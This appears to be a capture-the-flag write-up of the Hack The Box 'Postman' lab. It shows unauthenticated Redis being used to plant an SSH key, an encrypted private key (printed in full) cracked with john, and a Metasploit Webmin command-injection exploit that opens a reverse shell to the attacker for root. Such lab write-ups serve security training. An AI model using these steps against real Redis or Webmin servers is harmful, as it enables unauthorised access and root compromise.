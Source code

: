 ```yaml
---
layout: post
category: writeup
---
```


## Machine Info

- Name: Postman
- Description: Postman is an easy difficulty Linux machine, which features a Redis server running without authentication. This service can be leveraged to write an SSH public key to the user&amp;#039;s folder. An encrypted SSH private key is found, which can be cracked to gain user access. The user is found to have a login for an older version of Webmin. This is exploited through command injection to gain root privileges.
- Difficulty: Easy

## Initial Access

Nmap:
```bash
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-favicon: Unknown favicon MD5: E234E3E8040EFB1ACD7028330A956EBF
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 91549383E709F4F1DD6C8DAB07890301
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

4 services, 2 webpages, ssh, and redis. I like starting with things that are very quickly exploitable if possible, aka redis. Let's get started:

```bash
HTB redis-cli -h 10.10.10.160 
10.10.10.160:6379> info
# Server
redis_version:4.0.9
```

I try to write into the html directory to see if I can get php execution:

```bash
10.10.10.160:6379> config set dir /var/www/html
OK
10.10.10.160:6379> set test "<?php phpinfo(); ?>"
OK
10.10.10.160:6379> save
(error) ERR
```

Next I'll attempt to get a shell by writing an ssh key to the redis users home dir:

```bash
HTB (echo -e "\n\n"; cat ~/id_rsa.pub; echo -e "\n\n") > spaced_key.txt
cat: /home/kali/id_rsa.pub: No such file or directory
➜  HTB (echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > spaced_key.txt
➜  HTB cat spaced_key.txt | redis-cli -h 10.10.10.160 -x set ssh_key
OK
➜  HTB redis-cli -h 10.10.10.160                                               
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
10.10.10.160:6379>
```

Now I can just ssh in:
```bash
HTB ssh redis@10.10.10.160
The authenticity of host '10.10.10.160 (10.10.10.160)' can't be established.
ED25519 key fingerprint is SHA256:eBdalosj8xYLuCyv0MFDgHIabjJ9l3TMv1GYjZdxY9Y.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.160' (ED25519) to the list of known hosts.
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
Last login: Mon Aug 26 03:04:25 2019 from 10.10.10.1
redis@Postman:~$ ls
6379  dkixshbr.so  dump.rdb  ibortfgq.so  module.o  qcbxxlig.so  vlpaulhk.so
redis@Postman:~$
```

## Privilege Escalation

Now we have to privilege escalate!

Reading my bash_history file:

```bash
redis@Postman:~$ cat .bash_history 
exit
su Matt
pwd
nano scan.py
python scan.py
nano scan.py
clear
nano scan.py
clear
python scan.py
exit
exit
cat /etc/ssh/sshd_config 
su Matt
clear
cd /var/lib/redis
su Matt
exit
cat id_rsa.bak 
ls -la
exit
cat id_rsa.bak 
exit
ls -la
crontab -l
systemctl enable redis-server
redis-server
ifconfig
netstat -a
netstat -a
netstat -a
netstat -a
netstat -a > txt
exit
crontab -l
cd ~/
ls
nano 6379
exit
```

I can see that an id_rsa.bak file was created, let me go look for it:

```bash
redis@Postman:/opt$ cat id_rsa.bak 
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C

JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
7GsTwsMvKzXkkfEZQaXK/T50s3I4Cdcfbr1dXIyabXLLpZOiZEKvr4+KySjp4ou6
cdnCWhzkA/TwJpXG1WeOmMvtCZW1HCButYsNP6BDf78bQGmmlirqRmXfLB92JhT9
1u8JzHCJ1zZMG5vaUtvon0qgPx7xeIUO6LAFTozrN9MGWEqBEJ5zMVrrt3TGVkcv
EyvlWwks7R/gjxHyUwT+a5LCGGSjVD85LxYutgWxOUKbtWGBbU8yi7YsXlKCwwHP
UH7OfQz03VWy+K0aa8Qs+Eyw6X3wbWnue03ng/sLJnJ729zb3kuym8r+hU+9v6VY
Sj+QnjVTYjDfnT22jJBUHTV2yrKeAz6CXdFT+xIhxEAiv0m1ZkkyQkWpUiCzyuYK
t+MStwWtSt0VJ4U1Na2G3xGPjmrkmjwXvudKC0YN/OBoPPOTaBVD9i6fsoZ6pwnS
5Mi8BzrBhdO0wHaDcTYPc3B00CwqAV5MXmkAk2zKL0W2tdVYksKwxKCwGmWlpdke
P2JGlp9LWEerMfolbjTSOU5mDePfMQ3fwCO6MPBiqzrrFcPNJr7/McQECb5sf+O6
jKE3Jfn0UVE2QVdVK3oEL6DyaBf/W2d/3T7q10Ud7K+4Kd36gxMBf33Ea6+qx3Ge
SbJIhksw5TKhd505AiUH2Tn89qNGecVJEbjKeJ/vFZC5YIsQ+9sl89TmJHL74Y3i
l3YXDEsQjhZHxX5X/RU02D+AF07p3BSRjhD30cjj0uuWkKowpoo0Y0eblgmd7o2X
0VIWrskPK4I7IH5gbkrxVGb/9g/W2ua1C3Nncv3MNcf0nlI117BS/QwNtuTozG8p
S9k3li+rYr6f3ma/ULsUnKiZls8SpU+RsaosLGKZ6p2oIe8oRSmlOCsY0ICq7eRR
hkuzUuH9z/mBo2tQWh8qvToCSEjg8yNO9z8+LdoN1wQWMPaVwRBjIyxCPHFTJ3u+
Zxy0tIPwjCZvxUfYn/K4FVHavvA+b9lopnUCEAERpwIv8+tYofwGVpLVC0DrN58V
XTfB2X9sL1oB3hO4mJF0Z3yJ2KZEdYwHGuqNTFagN0gBcyNI2wsxZNzIK26vPrOD
b6Bc9UdiWCZqMKUx4aMTLhG5ROjgQGytWf/q7MGrO3cF25k1PEWNyZMqY4WYsZXi
WhQFHkFOINwVEOtHakZ/ToYaUQNtRT6pZyHgvjT0mTo0t3jUERsppj1pwbggCGmh
KTkmhK+MTaoy89Cg0Xw2J18Dm0o78p6UNrkSue1CsWjEfEIF3NAMEU2o+Ngq92Hm
npAFRetvwQ7xukk0rbb6mvF8gSqLQg7WpbZFytgS05TpPZPM0h8tRE8YRdJheWrQ
VcNyZH8OHYqES4g2UF62KpttqSwLiiF4utHq+/h5CQwsF+JRg88bnxh2z2BD6i5W
X+hK5HPpp6QnjZ8A5ERuUEGaZBEUvGJtPGHjZyLpkytMhTjaOrRNYw==
-----END RSA PRIVATE KEY-----
redis@Postman:/opt$
```

I find it in opt and I can read it! perfect, I can export this to my machine and crack it. I know I need to crack it because  of the encrypted header at the top.
```bash
 HTB ssh2john encid > hash
➜  HTB john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (encid)     
1g 0:00:00:00 DONE (2024-01-25 14:18) 7.692g/s 1898Kp/s 1898Kc/s 1898KC/s confused6..colin22
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

I try to ssh but that doesn't work, so I use the password to su and that works:

```bash
redis@Postman:/opt$ su matt
No passwd entry for user 'matt'
redis@Postman:/opt$ su Matt
Password: 
Matt@Postman:/opt$
```

I try to login with Matts credentials to the webmin instance on 10000, knowing webmin its a platform that runs as root. If it's vulnerable we should be able to get root:

Webmin 1.910 is vulneerable on metasploit:

```bash
msf6 exploit(linux/http/webmin_packageup_rce) > run

[*] Started reverse TCP handler on 10.10.14.14:4444 
[+] Session cookie: fd8136e716cf280759a7b4bfde45a8b8
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.14.14:4444 -> 10.10.10.160:59102) at 2024-01-25 14:42:22 -0500
whoami

root
```
Root!

## Beyond Root